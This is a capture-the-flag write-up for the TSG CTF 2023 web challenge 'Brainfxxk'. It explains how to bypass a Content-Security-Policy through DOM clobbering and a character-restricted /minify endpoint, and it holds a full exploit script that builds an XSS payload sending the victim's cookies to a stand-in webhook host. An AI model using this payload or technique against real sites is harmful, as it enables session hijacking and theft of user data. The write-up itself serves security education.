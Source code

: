 # TSG CTF 2023 - web/Brainfxxk Challenge

- 11 solves / 267 pts
- Author: fabon-f

You can get XSS at `/:codeId`, but CSP is enabled.

```
Content-Security-Policy: style-src 'self' https://unpkg.com/sakura.css@1.4.1/css/sakura.css ; script-src 'self' ; object-src 'none' ; font-src 'none'
```

You can use `/minify` as `<script>` src to get full xss, but the characters is limited at `/minify`.
At `/minify`, you can use only `><+-=r[]` characters. You need to construct your payload with these characters.

```javascript
app.get('/minify', (req, res) => {
    const code = req.query.code ?? ''
    res.send(code.replaceAll(/[^><+\-=r\[\]]/g, ''))
})
```

I did DOM Clobbering with like `<a id=r href=abc:def>` to get lowercase alphabets.
Then, I constructed `download` from the characters and obtained arbitrary string by getting `download` attribute.
Finally, I wrote payload equal to `r["ownerDocument"]["location"] = "http://webhook.example.com/?" + r["ownerDocument"]["cookie"]`;

## Exploit

```javascript
const char = (c) => {
	const code = c.charCodeAt(0);
	const element_id = "r".repeat(code);
	return `[${element_id}+[]][+[]][+[]]`;
}

const string = (s) => {
	return [...s].map(c => char(c)).join("+");
}

console.log(char("a"));

const xss_payload = `
[r=${string("download")}]+[rr[rr[r]][rrr[r]]=rrrrr[r]+rr[rr[r]][rrrr[r]]]
`;

console.log(xss_payload)

let dom_payload = `
<a id=rr download=ownerDocument></a>
<a id=rrr download=location></a>
<a id=rrrr download=cookie></a>
<a id=rrrrr download="https://webhook.example.com/?"></a>
`;

for (let c of "abcdefghijklmnopqrstuvwxyz0123456789") {
	const code = c.charCodeAt(0);
	const element_id = "r".repeat(code);
	dom_payload += `<a id=${element_id} href="${c}xx:abc">${c}</a>\n`;
}

dom_payload += `<script src="/minify?code=${encodeURIComponent(xss_payload)}"></script>`

console.log(dom_payload)

// submit payload and report it
```

## Flag

```
TSGCTF{u_r_j5fuck_m4573r}
```
